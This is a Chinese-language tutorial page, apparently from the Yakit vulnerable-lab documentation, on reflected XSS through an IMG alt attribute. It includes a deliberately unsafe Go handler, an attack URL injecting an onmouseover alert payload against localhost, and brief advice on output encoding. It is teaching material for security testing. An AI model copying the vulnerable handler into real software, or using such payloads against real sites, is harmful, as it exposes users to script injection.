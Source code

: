 ```yaml
---
sidebar_position: 8
---
```


# 08.输出存在于 HTML 节点属性中，但是不再 on 属性中(IMG ALT)

本案例演示了一种 XSS 攻击方式，通过将恶意代码注入到 HTML 节点属性中（如 IMG 标签的 ALT 属性），但不在 on 属性中，从而绕过一些安全机制。

### 示例代码：

以下是一个简化的示例代码，用于说明在 HTML 节点属性中利用 XSS 漏洞。

```HTML
{
        DefaultQuery: "value=visitor-name",
        Path:         "/attr/alt",
        Title:        "输出存在于HTML节点属性中，但是不再on属性中(IMG ALT)",
        Handler: func(writer http.ResponseWriter, request *http.Request) {
        unsafeTemplateRender(writer, request, `<!doctype html>
<html>
<head>
    <title>Example DEMO</title>
    <!-- ... 省略其他标签 ... -->
</head>
<body>
<div>
    Hello Visitor!
    <br>
    Here are photo for U! <br>
    <img style='width: 100px' alt='{{.value}}' src="/static/logo.png" onclick='javascript:alert("Welcome CLICK ME!")'/>
</div>
</body>
</html>`, map[string]any{
            "value": LoadFromGetJSONParam(request, "json", "value"),
        })
        writer.Header().Set("Content-Type", "text/html")
    },
    RiskDetected: true,
}
```

### 攻击示例：

```HTML
http://127.0.0.1:8787/xss/attr/alt?value=' onmouseover='alert("Hello Yakit")

<!--修改后的标签-->
<img style='width: 100px' alt='' onmouseover='alert("Hello Yakit")' src="/static/logo.png" .../>
```

在上述攻击示例中，攻击者通过在`value`参数中注入`' onmouseover='alert("Hello Yakit")`，将恶意代码嵌入到 ALT 属性中。当用户浏览到包含这个 IMG 标签的页面时，当鼠标悬停在图像上时，浏览器会执行嵌入的 JavaScript 代码，弹出一个弹窗。

**防御措施：**

要防范这种类型的漏洞，开发者需要对从用户输入获取的数据进行适当的转义和过滤，确保用户提供的内容不会被解释为 HTML 或 JavaScript 代码。这可以通过使用安全的 HTML 编码函数来实现。

### 靶场演示： 视频

<video
  src="/img/yaklab/xss/08unsafe-attr.mp4"
  loop={true}
  playsInline={true}
  controls={true}
  autoPlay={true}
  style={{ width: 890 }}
/>
